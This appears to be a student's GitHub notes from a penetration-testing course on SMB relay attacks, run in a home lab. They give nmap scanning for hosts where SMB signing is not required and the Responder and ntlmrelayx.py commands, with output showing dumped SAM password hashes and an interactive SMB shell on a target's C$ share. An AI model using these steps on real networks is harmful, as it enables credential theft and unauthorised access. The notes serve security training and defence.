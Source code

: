 # SMB Relay Attacks

## What is SMB Relay

![image](https://user-images.githubusercontent.com/96747355/167957290-5eee0e72-c551-41a6-b4e8-1576692615b9.png)  

> *Source: TCM Security Academy*  

![image](https://user-images.githubusercontent.com/96747355/167957396-3dba4765-9007-4fe3-989c-cefc2422e5e4.png)  

> *Source: TCM Security Academy*  

## Discovering hosts

- Possible with [Nessus](https://www.tenable.com/products/nessus)
- With [Nmap](https://nmap.org/)
```nmap --script=smb2-security-mode.nse -p445 10.0.2.0/24```
Example of what we get with this scan:

```bash
┌──(root💀kali)-[/home/kali]
└─# nmap --script=smb2-security-mode.nse -p445 10.0.2.0/24    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-29 16:36 EST
[STRIPPED]

Nmap scan report for 10.0.2.4
Host is up (0.00062s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:FC:72:E9 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Nmap scan report for 10.0.2.5
Host is up (0.00052s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:7F:90:90 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required

Nmap scan report for 10.0.2.15
Host is up (0.00059s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 08:00:27:AE:C1:68 (Oracle VirtualBox virtual NIC)

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

[STRIPPED]

Nmap done: 256 IP addresses (5 hosts up) scanned in 28.67 seconds
```

The domain controller has `enable` and `required`, we wont relay on this machine.

## SMB Relay Attack

### Attack 1st way

- In responder config (Responder.conf) we put http and smb on off
- Responder command
```responder -I eth0 -rdwv```
- Launch ntlmrelayx.py (our target ips are in targets.txt)
```ntlmrelayx.py -tf targets.txt -smb2support```
- We should get som hashes on our kali

```bash
[*] Done dumping SAM hashes for host: 10.0.2.4
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:25e61d7e5702c678e3be8711c03b7837:::
Jessica Jones:1001:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
```

### Attack 2nd way

- We launch Responder (with http and smb off), we launch ntlmrelayx.py just like befor but with -i to try to get an interactive shell.
```ntlmrelayx.py -tf targets.txt -smb2support -i```

- It should work and mention that we got a shell

```bash
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Received connection from 10.0.2.15, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL\fcastle SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
[STRIPPED]
```

- We can netcat to get the shell:
```nc 127.0.0.1 11000```
- We have an smb shell:

```bash
└─# nc 127.0.0.1 11000                                        
Type help for list of commands
# help

open {host,port=445} - opens a SMB connection against the target host/port
login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
logoff - logs off
shares - list available shares
use {sharename} - connect to an specific share
cd {path} - changes the current directory to {path}
lcd {path} - changes the current local directory to {path}
pwd - shows current remote directory
password - changes the user password, the new password will be prompted for input
ls {wildcard} - lists all the files in the current directory
rm {file} - removes the selected file
mkdir {dirname} - creates the directory under the current path
rmdir {dirname} - removes the directory under the current path
put {filename} - uploads the filename into the current path
get {filename} - downloads the filename from the current path
mount {target,path} - creates a mount point from {path} to {target} (admin required)
umount {path} - removes the mount point at {path} without deleting the directory (admin required)
info - returns NetrServerInfo main results
who - returns the sessions currently connected at the target host (admin required)
close - closes the current SMB Session
exit - terminates the server process (and this session)
# shares
ADMIN$
C$
IPC$
Share
# use C$
# ls
drw-rw-rw-          0  Fri Jan 28 19:29:18 2022 $Recycle.Bin
drw-rw-rw-          0  Fri Jan 28 20:21:23 2022 Documents and Settings
-rw-rw-rw-       8192  Sat Jan 29 16:14:20 2022 DumpStack.log.tmp
-rw-rw-rw- 1543503872  Sat Jan 29 16:14:20 2022 pagefile.sys
drw-rw-rw-          0  Fri Jan 28 20:18:41 2022 PerfLogs
drw-rw-rw-          0  Fri Jan 28 17:29:12 2022 Program Files
drw-rw-rw-          0  Fri Jan 28 20:18:41 2022 Program Files (x86)
drw-rw-rw-          0  Fri Jan 28 19:26:15 2022 ProgramData
drw-rw-rw-          0  Fri Jan 28 20:21:29 2022 Recovery
drw-rw-rw-          0  Fri Jan 28 19:33:38 2022 Share
-rw-rw-rw-  268435456  Sat Jan 29 16:14:20 2022 swapfile.sys
drw-rw-rw-          0  Fri Jan 28 17:21:44 2022 System Volume Information
drw-rw-rw-          0  Fri Jan 28 19:28:21 2022 Users
drw-rw-rw-          0  Fri Jan 28 17:23:30 2022 Windows
#
```

> *Note: ntlmrelayx.py is really powerfull and has many commands, we could even launch other shells.*

## SMB Relay attack Defenses

![image](https://user-images.githubusercontent.com/96747355/167957563-c1a2d775-3c4a-4aec-94ac-08dc5d0c505d.png)  

> *Source: TCM Security Academy*  
